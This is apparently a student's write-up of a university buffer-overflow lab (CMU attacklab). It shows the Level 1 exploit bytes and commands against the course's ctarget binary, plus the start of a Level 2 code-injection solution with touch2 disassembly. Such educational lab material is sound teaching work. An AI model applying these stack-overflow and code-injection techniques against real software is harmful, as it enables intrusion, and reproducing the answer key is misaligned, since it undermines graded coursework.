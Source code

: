 1. put the answer in a txt file called `answer1.txt`
2. use `./hex2raw < exploit.txt > answer1.txt`
3. use `./ctarget -i answer1.txt -q` to execute the program.
4. show the pass message

```nasm
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

# Level 2

- Position a byte representation of the address of your injected code so that the `ret` instruction at the end of the `getbuf` function transfers control to it.
- Recall that the first argument to a function is passed in the `%rdi` register.
- Your injected code should:
    - Set the `%rdi` register to your cookie.
    - Use a `ret` instruction to transfer control to the first instruction in `touch2`.
- Do **not** attempt to use `jmp` or `call` instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate.
- Use `ret` instructions for all transfers of control, even when you are not returning from a call.
- Refer to Appendix B for guidance on using tools to generate the byte-level representations of instruction sequences.

## Solutions

1. find the `touch2` function, we can see the address is `00000000004017ec` ,but we also need to send a argument to touch2, and the argument is in `cookie.txt` `0x59b997fa` .

```nasm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	call   401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	call   401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	call   400e40 <exit@plt>
```
